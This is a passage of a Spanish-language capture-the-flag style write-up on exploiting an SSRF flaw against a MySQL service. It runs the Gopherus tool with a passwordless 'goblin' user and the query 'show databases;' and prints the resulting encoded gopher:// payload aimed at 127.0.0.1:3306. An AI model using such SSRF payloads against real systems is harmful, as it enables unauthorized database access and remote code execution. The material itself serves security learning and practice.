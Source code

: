 El mismo **GitHub** nos lo dice: si llegamos a encontrar una página vulnerable al **ataque SSRF**, que además sabemos que ocupa el **servicio MySQL**, entonces, podemos usar **Gopherus** para crear payloads y obtener un **RCE**.

Usemos la herramienta para que nos cree un payload para **MySQL** y veamos qué obtenemos al usarlo en la página vulnerable:

Al usar la herramienta, nos pedirá un usuario que no tenga una contraseña. Este ya lo tenemos gracias al **archivo .bak** y luego nos pide la query que queremos usar. Usaremos la query `show databases;`, para ver todas las bases de datos almacenadas:
```bash
gopherus --exploit mysql

                                                                                                                                                                                                                 
  ________              .__                                                                                                                                                                                      
 /  _____/  ____ ______ |  |__   ___________ __ __  ______                                                                                                                                                       
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/                                                                                                                                                       
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \                                                                                                                                                        
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >                                                                                                                                                       
        \/       |__|        \/     \/                 \/                                                                                                                                                        
                                                                                                                                                                                                                 
                author: $_SpyD3r_$                                                                                                                                                                               
                                                                                                                                                                                                                 
For making it work username should not be password protected!!!

Give MySQL username: goblin                                                                                                                                                                                      
Give query to execute: show databases;

Your gopher link is ready to do SSRF :                                                                                                                                                                           
                                                                                                                                                                                                                 
gopher://127.0.0.1:3306/_%a5%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%67%6f%62%6c%69%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%10%00%00%00%03%73%68%6f%77%20%64%61%74%61%62%61%73%65%73%3b%01%00%00%00%01
```
